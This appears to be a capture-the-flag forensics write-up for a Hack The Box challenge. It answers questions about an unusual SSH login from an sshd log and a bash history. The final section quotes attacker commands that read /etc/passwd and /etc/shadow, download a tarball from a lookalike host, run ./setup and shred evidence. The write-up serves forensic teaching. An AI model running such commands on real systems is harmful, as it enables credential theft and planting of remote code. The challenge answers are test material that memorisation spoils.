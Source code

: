 ```yaml
---
layout: post
title:  "An Unsual Sighting"
date:   2025-04-07 12:00:00 -0400
categories: HTB-challenge forensics very-easy
tags: HTB CTF writeup 
---
```


### SOLUTION
We have 2 files to analyze: `bash_history.txt` and  `sshd.log`

**Q1: What is the IP Address and Port of the SSH Server (IP:PORT)**

Looking at `sshd.log` we can see this:

`[2024-01-28 15:24:23] Connection from 100.72.1.95 port 47721 on 100.107.36.130 port 2221 rdomain`

We get the answer
```
100.107.36.130:2221 
```

**Q2: What time is the first successful Login**

Search for `Accepted` and we get:

`[2024-02-13 11:29:50] Accepted password for root from 100.81.51.199 port 63172 ssh2`
```
2024-02-13 11:29:50
```

**Q3: What is the time of the unusual Login**

We can notice that all of the accepted IP addresses start with `100.` or higher. But there is only 1 different.

`[2024-02-19 04:00:14] Connection from 2.67.182.119 port 60071 on 100.107.36.130 port 2221 rdomain`

```
2024-02-19 04:00:14
```

**Q4: What is the Fingerprint of the attacker's public key**     

Looking at that IP address and its `SHA256`

```
OPkBSs6okUKraq8pYo4XwwBg55QSo210F09FCe1-yj4
```

**Q5: What is the first command the attacker executed after logging in**                                                                                                               

Now look at `bash_history.txt` file, search for unusual login time and we get the answer.

```
whoami
```

**Q6: What is the final command the attacker executed before logging out**                                                                                                                 
By looking at the range of timestamp, we can guess the answer.

```
[2024-02-16 14:40:47] python ./server.py --tests
[2024-02-19 04:00:18] whoami
[2024-02-19 04:00:20] uname -a
[2024-02-19 04:00:40] cat /etc/passwd
[2024-02-19 04:01:01] cat /etc/shadow
[2024-02-19 04:01:15] ps faux
[2024-02-19 04:02:27] wget https://gnu-packages.com/prebuilts/iproute2/latest.tar.gz -O /tmp/latest_iproute.tar.gz
[2024-02-19 04:10:02] tar xvf latest.tar.gz
[2024-02-19 04:12:02] shred -zu latest.tar.gz
[2024-02-19 04:14:02] ./setup
[2024-02-20 11:11:14] nvim server.py

```                                                                                                               
